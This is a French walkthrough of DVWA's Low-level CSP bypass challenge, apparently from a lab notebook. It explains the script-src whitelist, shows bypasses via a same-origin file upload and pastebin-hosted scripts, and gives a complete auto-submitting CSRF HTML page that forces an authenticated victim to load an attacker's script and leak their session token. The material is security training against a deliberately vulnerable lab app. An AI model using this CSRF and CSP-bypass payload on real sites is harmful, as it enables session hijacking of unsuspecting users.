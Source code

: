 # Niveau "Low"

Le challenge en niveau "Low" nous invite à saisir une URL afin d'exécuter un script externe :

![](../../../../.gitbook/assets/83d66bf2506d8abbf52df7aa04c8491c.png)

Etant donné que le challenge porte sur CSP, analysons la politique en place :

![](../../../../.gitbook/assets/4c95c1893c15a69870cccd04fed456fd.png)

```text
Content-Security-Policy: script-src 'self' https://pastebin.com example.com code.jquery.com https://ssl.google-analytics.com
```

Ce qui donne pour la directive `script-src` :

* `'self'` : Autorise l'exécution de ressources fournies par la même origine
* `https://pastebin.com` : Autorise l'exécution de ressources hébergées sur _https://pastebin.com_
* `example.com` : Autorise l'exécution de ressources hébergées sur _example.com_
* `code.jquery.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _code.jquery.com_
* `https://ssl.google-analytics.com` : Autorise l'exécution de ressources hébergées sur le sous domaine _ssl.google-analytics.com_

Ma première idée a été d'exploiter la vulnérabilité de file upload trop permissive qui va nous permettre d'uploader sur la plateforme un fichier javascript malicieux. Ce fichier aura donc la même origine que celle de l'application :

![](../../../../.gitbook/assets/abd8c00a65a0114f8bf3bb217a51e642.png)

Etant donné qu'il est possible d'accéder directement au fichier, nous pouvons soumettre son URL dans le formulaire du challenge CSP :

![](../../../../.gitbook/assets/f4cdd55c232175ca8a47209179707fb7.png)

Cela permet de contourner la source `'self'` du CSP.

Concernant la liste blanche d'URL autorisées, `https://pastbin.com` va nous permettre également l'exécution de script :

![](../../../../.gitbook/assets/9fe51b4422633e6f836324885e0175fa.png)

Pour l'exploitation, on utilise le mode "raw" afin de soumettre l'URL à DVWA :

![](../../../../.gitbook/assets/95f6e25ce122eccbf6fea456fa91fdbf.png)

Ce qui nous permet de faire exécuter un script contrôlé par nos soins tout en respectant la liste blanche imposée par DVWA :

![](../../../../.gitbook/assets/072bf6bc8bdd3c9cd0d964b3f5f0fd69.png)

Il suffit d'adapter notre payload malicieux afin de récupérer le jeton de notre victime :

![](../../../../.gitbook/assets/f553280d21b7d08019c14bdb7584c2f3.png)

Reste maintenant à savoir comment s'y prendre pour que notre attaque affecte un autre utilisateur. En effet, la requête n'est pas de type **`GET`** mais de type **`POST`**, ce qui nous empêche de partager facilement un lien forgé à notre victime : 

![](../../../../.gitbook/assets/26904d65167ec3365c6c78f8fb603a0f.png)

La solution que j'ai trouvée pour remédier à ce problème est d'utiliser la faille CSRF présente dans cette requête \(aucun mécanisme de protection n'est présent\). Il nous faut donc héberger sur un serveur d'attaque la page malicieuse suivante :

```markup
<html>
  <head>
    <title>Exploitation POST XSS</title>
  </head>

  <body>
    <p>Post reflected XSS !</p>
    <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
      <input type="text" name="include" value="https://pastebin.com/raw/GSVw7nnZ">
      <button type="submit">Envoyer le message</button>
    </form>

    <script>document.forms['postExploitXSS'].submit();</script>
    </body>
</html>
```

Puis de fournir à notre victime le lien permettant d'accéder à notre page, par exemple `http://192.168.56.182/dvwa/post_xss.html` :

![](../../../../.gitbook/assets/7fa84faa90d73ff547b4b042fe15240a.png)

La victime, obligatoirement authentifiée, sera redirigée \(ce qui déclenchera l'exécution de notre script\) vers le site du challenge CSP de DVWA et l'attaquant réceptionnera son jeton :

![](../../../../.gitbook/assets/22eb6eb75298fced197214c1f6f963fc.png)







